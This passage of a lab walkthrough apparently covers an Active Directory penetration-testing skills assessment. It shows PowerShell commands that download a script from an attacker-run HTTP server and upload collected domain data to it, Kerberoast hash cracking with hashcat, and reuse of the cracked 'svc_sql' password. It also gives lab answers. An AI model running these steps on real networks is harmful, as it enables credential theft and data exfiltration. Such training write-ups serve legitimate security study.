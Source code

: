 PS C:\> (New-Object Net.WebClient).DownloadFile('http://10.10.15.123:8000/PSUpload.ps1','C:\PSUpload.ps1')

PS C:\> import-module C:\PSUpload.ps1

PS C:\> Invoke-FileUpload -Uri http://10.10.15.123:8000/upload -File C:\*INLANEFREIGHT.zip

┌──(kali㉿kali)-[~]

└─$ python3 -m uploadserver

File upload available at /upload

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

10.129.139.169 - - [07/Mar/2023 04:59:16] [Uploaded] "20230307015614_INLANEFREIGHT.zip" --> /home/kali/20230307015614_INLANEFREIGHT.zip

10.129.139.169 - - [07/Mar/2023 04:59:16] "POST /upload HTTP/1.1" 204 -

Uploaded the .zip file generated by SharpHound into BloodHound GUI and also saved the hashes found from Kerberoasting into a file named `hashes` for password cracking. Account name with the SPN in the question is the answer below.

**Answer:** `**svc_sql**`

### 

3. Crack the account's password. Submit the cleartext value.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#3.-crack-the-accounts-password.-submit-the-cleartext-value.)

┌──(kali㉿kali)-[~]

└─$ hashcat -m 13100 hashes /usr/share/wordlists/rockyou.txt

<SNIP>

$krb5tgs$23$*svc_sql$INLANEFREIGHT.LOCAL$MSSQLSvc/SQL01.inlanefreight.local:1433@INLANEFREIGHT.LOCAL*$<SNIP>:lucky7

**Answer:** `**lucky7**`

### 

4. Submit the contents of the flag.txt file on the Administrator desktop on MS01[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#4.-submit-the-contents-of-the-flag.txt-file-on-the-administrator-desktop-on-ms01)

BloodHound GUI did not provide meaningful data :(

PS C:\> ping MS01

Pinging MS01.INLANEFREIGHT.LOCAL [172.16.6.50] with 32 bytes of data:

Reply from 172.16.6.50: bytes=32 time<1ms TTL=128

​

PS C:\windows\system32\inetsrv> $password = ConvertTo-SecureString "lucky7" -AsPlainText -Force

PS C:\windows\system32\inetsrv> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT.LOCAL\svc_sql", $password)


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0